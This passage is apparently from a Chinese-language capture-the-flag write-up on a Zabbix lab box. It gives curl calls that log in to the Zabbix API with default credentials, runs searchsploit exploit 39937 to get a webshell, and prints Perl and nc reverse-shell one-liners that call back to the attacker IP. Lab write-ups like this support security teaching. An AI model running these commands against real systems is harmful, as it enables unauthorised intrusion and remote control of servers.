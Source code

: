 ```
curl -i -X POST -H 'Content-type:application/json' -d '{"jsonrpc":"2.0","method":"user.login","params":{ "user":"zapper","password":"zapper"},"auth":null,"id":0}' http://10.10.10.108/zabbix/api_jsonrpc.php
---
curl -i -X POST -H 'Content-type:application/json' -d '{"jsonrpc":"2.0","method":"host.get","params":{ "output": ["hostid","host"],"selectInterfaces":["interfaceid","ip"] },"auth":"注意修改这里的hash是通过上一条命令得到的","id":0}' http://10.10.10.108/zabbix/api_jsonrpc.php
```

## 修改exp并执行
通过api，查询到服务器参数，然后修改exp

```
searchsploit -m exploits/hp/webapps/39937.py

ZABIX_ROOT = 'http://10.10.10.108/zabbix'	### Zabbix IP-address
login = 'zapper'		### Zabbix login
password = 'zapper'	### Zabbix password
hostid = '10105'	### Zabbix hostid

python 39937.py 即可拿到webshell
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-02-11/1.PNG)

## 反弹docker虚拟机的shell到本地
```
参考pentestmonkey的reverse shell
反弹shell到本地。

nc -lnvp 1234
首先本地监听1234端口
---
webshell执行以下命令
方法一：perl -e 'use Socket;$i="10.10.14.10";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

方法二：rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 1234 >/tmp/f
---
python -c 'import pty;pty.spawn("/bin/bash")'
反弹standard shell失败，没有找到python
---
SHELL=/bin/bash script -q /dev/null
获得startard tty
---
find / -name "*.txt" 2>/dev/null
```